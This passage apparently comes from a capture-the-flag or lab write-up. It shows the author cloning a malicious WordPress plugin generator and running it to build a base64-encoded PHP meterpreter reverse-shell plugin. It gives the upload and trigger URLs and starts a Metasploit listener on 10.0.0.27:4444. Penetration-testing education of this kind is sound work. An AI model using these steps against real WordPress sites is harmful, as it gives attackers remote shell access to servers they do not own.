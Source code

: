 I tried editing the PHP to a  reverse shell script but that didn't work, so let's upload a malicious plugin from **'https://github.com/wetw0rk/malicious-wordpress-plugin'**.

    root@kali ~/D/M/Ginger#  git clone https://github.com/wetw0rk/malicious-wordpress-plugin

    root@kali ~/D/T/W/malicious-wordpress-plugin (master)# python wordpwn.py 10.0.0.27 4444 Y
    [*] Checking if msfvenom installed
    [+] msfvenom installed
    [+] Generating plugin script
    [+] Writing plugin script to file
    [+] Generating payload To file
    [-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
    [-] No arch selected, selecting arch: php from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of php/base64
    php/base64 succeeded with size 1503 (iteration=0)
    php/base64 chosen with final size 1503
    Payload size: 1503 bytes

    [+] Writing files to zip
    [+] Cleaning up files
    [+] URL to upload the plugin: http://(target)/wp-admin/plugin-install.php?tab=upload
    [+] How to trigger the reverse shell : 
        ->   http://(target)/wp-content/plugins/malicious/wetw0rk_maybe.php
        ->   http://(target)/wp-content/plugins/malicious/QwertyRocks.php
    [+] Launching handler
                                                    
    _                                                    _
    / \    /\         __                         _   __  /_/ __                                                
    | |\  / | _____   \ \           ___   _____ | | /  \ _   \ \                                               
    | | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|                                              
    |_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_                                              
        |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\                                             
                                                                                                            

        =[ metasploit v6.1.22-dev                          ]
    + -- --=[ 2188 exploits - 1161 auxiliary - 400 post       ]
    + -- --=[ 596 payloads - 45 encoders - 10 nops            ]
    + -- --=[ 9 evasion                                       ]

    Metasploit tip: Use sessions -1 to interact with the 
    last opened session

    [*] Processing wordpress.rc for ERB directives.
    resource (wordpress.rc)> use exploit/multi/handler
    [*] Using configured payload generic/shell_reverse_tcp
    resource (wordpress.rc)> set PAYLOAD php/meterpreter/reverse_tcp
    PAYLOAD => php/meterpreter/reverse_tcp
    resource (wordpress.rc)> set LHOST 10.0.0.27
    LHOST => 10.0.0.27
    resource (wordpress.rc)> set LPORT 4444
    LPORT => 4444
    resource (wordpress.rc)> exploit
    [*] Started reverse TCP handler on 10.0.0.27:4444 


[1]: "https://www.exploit-db.com/exploits/37560"